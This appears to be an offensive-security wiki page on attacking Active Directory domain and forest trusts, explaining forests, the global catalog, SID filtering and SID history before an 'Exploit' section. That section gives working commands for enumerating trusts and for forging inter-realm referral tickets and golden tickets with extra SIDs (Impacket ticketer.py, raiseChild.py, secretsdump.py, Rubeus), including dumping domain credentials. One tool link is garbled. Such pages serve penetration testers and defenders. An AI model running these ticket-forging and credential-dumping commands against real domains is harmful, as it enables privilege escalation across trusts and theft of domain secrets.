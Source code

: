 ## Theory
### Forest, domains & trusts
An Active Directory domain is a collection of computers, users, and other resources that are all managed together. A domain has its own security database, which is used to authenticate users and computers when they log in or access resources within the domain.

A forest is a collection of one or more Active Directory domains that share a common schema, configuration, and global catalog. The schema defines the kinds of objects that can be created within the forest, and the global catalog is a centralized database that contains a searchable, partial replica of every domain in the forest.

Trust relationships between domains allow users in one domain to access resources in another domain. There are several types of trust relationships that can be established, including one-way trusts, two-way trusts, external trusts, etc

Once a trust relationship is established between a trusting domain (A) and trusted domain (B), users from the trusted domain can authenticate to the trusting domain's resources. In other -more technical- terms, trusts extend the security boundary of a domain or forest.
!!! note
    Simply establishing a trust relationship does not automatically grant access to resources. In order to access a "trusting" resource, a "trusted" user must have the appropriate permissions to that resource. These permissions can be granted by adding the user to a group that has access to the resource, or by giving the user explicit permissions to the resource.

    A trust relationship allows users in one domain to authenticate to the other domain's resources, but it does not automatically grant access to them. Access to resources is controlled by permissions, which must be granted explicitly to the user in order for them to access the resources.

### Global catalog
The global catalog is a partial copy of all objects in an Active Directory forest, meaning that some object properties (but not all) are contained within it. This data is replicated among all domain controllers marked as global catalogs for the forest. One of the Global Catalog's purposes is to facilitate quick object searching and conflict resolution without the necessity of referring to other domains

The initial global catalog is generated on the first domain controller created in the first domain in the forest. The first domain controller for each new child domain is also set as a global catalog by default, but others can be added.

The GC allows both users and applications to find information about any objects in ANY domain in the forest. The Global Catalog performs the following functions:

- Authentication (provided authorization for all groups that a user account belongs to, which is included when an access token is generated)
- Object search (making the directory structure within a forest transparent, allowing a search to be carried out across all domains in a forest by providing just one attribute about an object.)

### SID filtering
According to Microsoft, the security boundary in Active Directory is the forest, not the domain. The forest defines the boundaries of trust and controls access to resources within the forest.

The domain is a unit within a forest and represents a logical grouping of users, computers, and other resources. Users within a domain can access resources within their own domain and can also access resources in other domains within the same forest, as long as they have the appropriate permissions. Users cannot access resources in other forests unless a trust relationship has been established between the forests.

SID filtering plays an important role in the security boundary by making sure "only SIDs from the trusted domain will be accepted for authorization data returned during authentication. SIDs from other domains will be removed".By default, SID filtering is disabled for intra-forest trusts, and enabled for inter-forest trusts

### SID History
The SID (Security Identifier) is a unique identifier that is assigned to each security principal (e.g. user, group, computer). It is used to identify the principal within the domain and is used to control access to resources.

The SID history is a property of a user or group object that allows the object to retain its SID when it is migrated from one domain to another as part of a domain consolidation or restructuring. When an object is migrated to a new domain, it is assigned a new SID in the target domain. The SID history allows the object to retain its original SID, so that access to resources in the source domain is not lost.

Many resources across the Internet, including Microsoft's docs and tools, state that SID history can be enabled across a trust. This is not 100% true. SID history is not a feature that can be toggled on or off per say.
## Exploit
### Enum
=== "UNIX-like"
    From UNIX-like systems, tools like [ldeep](From UNIX-like systems, tools like ldeep (Python), [ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump) (Python), [ldapsearch-ad](https://github.com/yaap7/ldapsearch-ad) (Python) and ldapsearch (C) can be used to enumerate trusts.) (Python), ldapdomaindump (Python), ldapsearch-ad (Python) and [ldapsearch](https://git.openldap.org/openldap/openldap) (C) can be used to enumerate trusts.
    ```bash
    # ldeep supports cleartext, pass-the-hash, pass-the-ticket, etc.
    ldeep ldap -u "$USER" -p "$PASSWORD" -d "$DOMAIN" -s ldap://"$DC_IP" trusts

    # ldapdomaindump will store HTML, JSON and Greppable output
    ldapdomaindump --user 'DOMAIN\USER' --password "$PASSWORD" --outdir "ldapdomaindump" "$DC_HOST"

    # ldapsearch-ad
    ldapsearch-ad --server "$DC_HOST" --domain "$DOMAIN" --username "$USER" --password "$PASSWORD" --type trusts

    # ldapsearch
    ldapsearch -h ldap://"$DC_IP" -b "CN=SYSTEM,DC=$DOMAIN" "(objectclass=trustedDomain)"
    ```
    BloodHound can also be used to map the trusts. While it doesn't provide much details, it shows a visual representation.
=== "Windows"
    From `domain-joined` hosts, the netdom cmdlet can be used.
    ```bash
    netdom trust /domain:DOMAIN.LOCAL
    ```
    Alternatively, PowerSploit's PowerView (PowerShell) supports multiple commands for various purposes.

    | Command                         | Alias                  | Description                                                                                   |
    |---------------------------------|------------------------|-----------------------------------------------------------------------------------------------|
    | `Get-DomainTrust`              | `Get-NetDomainTrust`   | Gets all trusts for the current user's domain                                                 |
    | `Get-ForestTrust`              | `Get-NetForestTrust`   | Gets all trusts for the forest associated with the current user's domain                      |
    | `Get-DomainForeignUser`        | `Find-ForeignUser`     | Enumerates users who are in groups outside of their principal domain                          |
    | `Get-DomainForeignGroupMember` | `Find-ForeignGroup`    | Enumerates all the members of a domain's groups and finds users that are outside the domain   |
    | `Get-DomainTrustMapping`       | `Invoke-MapDomainTrust`| Tries to build a relational mapping of all domain trusts                                       |

    ```bash
    Get-DomainTrust -SearchBase "GC://$($ENV:USERDNSDOMAIN)"
    ```
### Forging tickets
When authenticating across trusts, an attacker can forge either:

- A referral ticket (inter-realm TGT) using the inter-realm trust key
- A golden ticket using the compromised domain's krbtgt hash
#### Referral ticket
When forging a referral ticket, a service ticket request must be conducted before trying to access the domain controller. The referral ticket is encrypted with the inter-realm key shared between the two domains.
=== "UNIX-like"
    From UNIX-like systems, Impacket scripts (Python) can be used:
    ```bash
    # 1. forge the referral ticket
    ticketer.py -nthash "inter-realm key" -domain-sid "compromised_domain_SID" -domain "compromised_domain_FQDN" -extra-sid "<target_domain_SID>-<RID>" -spn "krbtgt/target_domain_fqdn" "someusername"

    # 2. use it to request a service ticket
    KRB5CCNAME="someusername.ccache" getST.py -k -no-pass -debug -spn "CIFS/domain_controller" "target_domain_fqdn/someusername@target_domain_fqdn"
    ```
#### Golden ticket
When forging a golden ticket, the target domain controller will handle the service ticket generation itself. The golden ticket is encrypted with the compromised domain's krbtgt hash.
=== "UNIX-like"
    ```bash
    # Generate golden ticket with extra SID
    ticketer.py -nthash "compromised_domain_krbtgt_NT_hash" -domain-sid "compromised_domain_SID" -domain "compromised_domain_FQDN" -extra-sid "<target_domain_SID>-<RID>" "someusername"

    # The ticket can be used directly with any tool supporting Kerberos auth
    KRB5CCNAME="someusername.ccache" secretsdump.py -k -no-pass "target_domain_fqdn/someusername@domain_controller"
    ```
    Impacket's raiseChild.py script can also be used to conduct the golden ticket technique automatically when SID filtering is disabled:
    ```bash
    raiseChild.py "compromised_domain"/"compromised_domain_admin":"$PASSWORD"
    ```
=== "Windows"
    ```bash
    # Generate golden ticket with extra SID and use Pass-the-Ticket
    Rubeus.exe golden /user:Administrator /domain:<compromised_domain_FQDN> /sid:<compromised_domain_SID> /sids:<target_domain_SID>-<RID> /krbtgt:<compromised_domain_krbtgt_NT_hash> /ptt

    # The ticket can be used directly with any tool supporting Kerberos auth
    ```

